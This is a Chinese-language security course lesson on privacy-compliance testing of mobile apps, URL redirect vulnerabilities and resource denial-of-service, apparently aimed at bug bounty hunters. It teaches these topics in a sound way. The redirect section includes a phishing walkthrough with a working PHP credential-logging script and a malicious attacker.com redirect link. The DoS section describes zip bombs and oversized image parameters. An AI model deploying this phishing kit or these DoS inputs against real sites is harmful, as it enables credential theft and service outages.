





# 课程P76：业务设计篇 & 隐私合规检测 & URL重定向 & 资源拒绝服务




## 📋 概述

在本节课中，我们将学习业务设计层面的三个安全问题：**隐私合规检测**、**URL重定向漏洞**以及**资源拒绝服务攻击**。这些漏洞在SRC（安全应急响应中心）挖掘中较为常见，但在日常渗透测试中可能较少遇到。我们将逐一解析其原理、挖掘方法和利用方式。

---

## 🔍 隐私合规检测

上一节我们介绍了课程的整体内容，本节中我们来看看第一个主题：隐私合规检测。

隐私合规主要针对**App**和**小程序**。简单来说，它是指应用程序在收集、使用用户个人信息时，必须遵守国家相关规定，明确告知用户并获得同意。如果App在用户不知情的情况下，擅自收集设备信息、通讯录、位置等数据，就属于违规行为。各大厂商的SRC通常都会接收此类漏洞报告。

### 核心概念与检测方法

检测的核心在于判断App在调用敏感权限或收集数据时，是否向用户进行了明确提示。违规行为通常表现为：**未提示用户或未经用户同意，直接收集/传输个人信息**。

以下是检测隐私合规的两种主要方法：

1.  **静态分析**：直接分析APK安装包文件，检查其声明的权限和可能的行为。这种方法无需运行App。
2.  **动态分析**：在Root后的真实安卓设备上运行App，通过监控工具实时检测其网络行为、API调用等，判断是否有违规收集数据的行为。动态分析更为精准。

### 常用检测工具

以下是两个用于自动化检测隐私合规的开源项目：

*   **AppScan**：这是一个动态分析工具，需要在已Root的安卓手机上运行。它通过USB调试连接电脑，自动化监控App行为并给出检测报告。其优点是提供了Windows和Mac的图形化客户端，易于使用。
*   **另一个开源项目**：同样用于安卓App的隐私违规检测。具体使用可参考其官方文档。

**注意**：动态分析必须使用**已Root的真实安卓手机**，安卓模拟器通常无法满足要求，因为许多App会检测运行环境并拒绝在模拟器上启动。

### 漏洞挖掘流程

1.  **信息收集**：从目标SRC的资产列表中，找出其旗下的App或小程序产品。
2.  **获取应用**：下载目标App的安装包（APK文件）。
3.  **进行分析**：
    *   使用静态分析工具（如MobSF）快速扫描APK，查看其申请的权限和潜在风险点。
    *   使用动态分析工具（如AppScan）在真机上运行App，模拟用户操作，观察其在实际运行中是否有未提示的敏感数据收集行为。
4.  **手工验证**：针对工具提示的风险点，进行手工测试。例如，如果工具显示App会读取联系人，则在App内尝试使用“分享给好友”等功能，观察操作前是否有明确的权限申请弹窗。
5.  **提交报告**：确认存在违规行为后，根据目标SRC的评分规则整理漏洞详情并提交。

**总结**：隐私合规漏洞的挖掘关键在于**监控App的实际行为是否与其提示相符**。利用自动化工具可以提高效率，但最终需要结合手工测试进行验证。

---

## 🔗 URL重定向漏洞

上一节我们介绍了如何检测App的隐私合规问题，本节中我们来看看Web应用中常见的URL重定向漏洞。

URL重定向漏洞通常发生在网站将用户请求重定向到另一个地址时，攻击者可以控制重定向的目标参数。常见的功能点包括：用户登录后的跳转、内容分享链接、页面导航等。

### 漏洞原理与危害

漏洞产生的根本原因是：**应用程序将用户可控的输入（如URL参数）直接用于重定向操作，且未对目标地址进行严格校验**。

其危害主要体现在配合**钓鱼攻击**上：
1.  攻击者构造一个看似属于可信域名（如 `weixin.qq.com`）的链接，但其中包含指向恶意网站的重定向参数。
2.  用户点击链接，浏览器首先访问可信域名，但页面立即跳转到攻击者控制的钓鱼网站。
3.  钓鱼网站精心仿造了目标网站的登录界面，用户在不察之下输入账号密码，信息便被窃取。

### 漏洞挖掘方法

以下是挖掘URL重定向漏洞的常见思路：

*   **黑盒测试**：重点关注带有重定向功能的参数。在浏览或爬取网站时，留意以下参数名：
    *   `url=`
    *   `redirect=`
    *   `link=`
    *   `to=`
    *   `domain=`
    *   `target=`
*   **修改测试**：发现此类参数后，尝试将其值修改为外部域名（如 `https://www.baidu.com`）。如果页面确实跳转到了百度，则证明存在重定向漏洞。
*   **代码审计**：在源代码中搜索重定向函数，例如PHP的 `header(“Location: “)`、Java的 `response.sendRedirect()`、.NET的 `Response.Redirect()` 等，并回溯其参数是否用户可控。

### 漏洞利用演示

假设我们找到一个漏洞点：`https://target.com/page?url=https://www.target.com/next`

1.  **制作钓鱼页面**：使用工具（如HTTrack）克隆目标网站的登录页面到本地或自己的服务器。
2.  **修改表单**：在克隆的登录页面中，修改表单的 `action` 属性，使其提交数据到攻击者控制的服务器（一个用于接收数据的PHP脚本）。
    ```php
    <?php
    // save.php - 用于接收并保存窃取的凭据
    $user = $_POST['username'];
    $pass = $_POST['password'];
    $fp = fopen('pass.txt', 'a+');
    fwrite($fp, "User: $user | Pass: $pass\n");
    fclose($fp);
    ?>
    ```
3.  **构造恶意链接**：将漏洞点中的 `url` 参数值替换为钓鱼页面的地址：`https://target.com/page?url=https://attacker.com/fake_login.html`
4.  **实施钓鱼**：将构造好的链接通过邮件、社交平台等方式发送给受害者。用户点击后，会经过 `target.com` 的重定向，最终进入一个与真实登录页一模一样的钓鱼页面，输入的凭据将被发送至攻击者服务器。

**注意**：由于该漏洞的危害严重依赖钓鱼的成功率，因此部分SRC可能不予收录或评级较低，但这并不影响其在实际攻击中的危险性。

---

## 💥 资源拒绝服务攻击

上一节我们探讨了可能用于钓鱼的URL重定向漏洞，本节中我们来看看另一种可能使服务瘫痪的攻击：资源拒绝服务。

资源拒绝服务攻击是指攻击者通过向Web应用提交特殊构造的请求，导致服务器在处-理这些请求时过度消耗CPU、内存、磁盘I/O等资源，从而使正常用户无法访问服务。

### 攻击原理

其核心原理是：**寻找应用程序中那些需要消耗资源来处理用户输入的功能点，并提交能让该处理过程陷入极端耗时或无限循环的数据**。

### 常见攻击场景与案例

以下是两种典型的资源拒绝服务攻击场景：

1.  **图像处理资源耗尽**：
    *   **场景**：网站提供图片缩放功能，参数 `width` 和 `height` 用户可控。
    *   **攻击**：提交极大的数值（如 `width=9999999&height=9999999`）。如果服务器端脚本尝试在内存中生成一个如此巨大的图片，将会消耗大量CPU和内存资源。
    ```php
    // 存在漏洞的示例代码
    $width = $_GET['width']; // 攻击者可控制
    $height = $_GET['height']; // 攻击者可控制
    echo "";
    // 实际处理图片的库可能会根据此参数进行高负载运算
    ```

2.  **压缩包炸弹（ZIP Bomb）**：
    *   **场景**：网站允许用户上传ZIP压缩包，并会在服务器端自动解压。
    *   **攻击**：上传一个“压缩包炸弹”。这种特殊的ZIP文件体积很小（如42KB），但解压后会产生海量数据（如4.3GB）。服务器解压程序会持续运行，耗尽磁盘空间和CPU资源。
    *   **利用**：当网站存在文件解压功能时，上传此类恶意压缩包。
    ```php
    // 存在漏洞的示例代码 - 解压用户上传的ZIP
    $zip = new ZipArchive;
    if ($zip->open($_FILES['zipfile']['tmp_name']) === TRUE) {
        $zip->extractTo('/path/to/extract/'); // 如果解压的是压缩包炸弹，将导致灾难
        $zip->close();
        echo '解压成功！';
    }
    ```

### 漏洞挖掘思路

挖掘此类漏洞的关键在于：
1.  **识别资源密集型功能**：关注所有涉及**文件处理**（如图片缩放、格式转换、解压缩、PDF生成）、**复杂计算**或**大数据量查询**的功能。
2.  **测试极限输入**：向这些功能点提交非常规的、极端的数据，观察服务器响应时间、错误日志或资源监控指标（CPU、内存使用率）是否出现异常。
3.  **谨慎测试**：**务必在授权测试环境下进行**，因为此类测试极易导致目标服务瘫痪，可能造成严重后果。

**总结**：资源拒绝服务攻击利用了Web应用在处理特定任务时的逻辑缺陷。防御的关键在于对所有用户输入进行严格的校验和限制，并对资源消耗大的操作设置超时和阈值。

---

## 🎯 课程总结

本节课我们一起学习了业务设计层面的三个安全问题：

1.  **隐私合规检测**：主要针对移动应用，核心是检查其在收集用户数据时是否遵循“告知-同意”原则。我们介绍了静态与动态两种分析方法及工具（如AppScan）。
2.  **URL重定向漏洞**：发生在用户可控参数被用于重定向时。其危害常与钓鱼攻击结合，我们讲解了挖掘方法（关注`url`、`redirect`等参数）和基本的利用演示。
3.  **资源拒绝服务攻击**：通过向资源处理功能（如图片处理、文件解压）提交恶意数据，耗尽服务器资源。我们以图像参数篡改和压缩包炸弹为例说明了其原理。

这些漏洞在SRC挖掘中占有一席之地，理解它们有助于拓宽安全测试的视野。从下节课开始，我们将进入新的章节，探讨服务攻防相关的知识。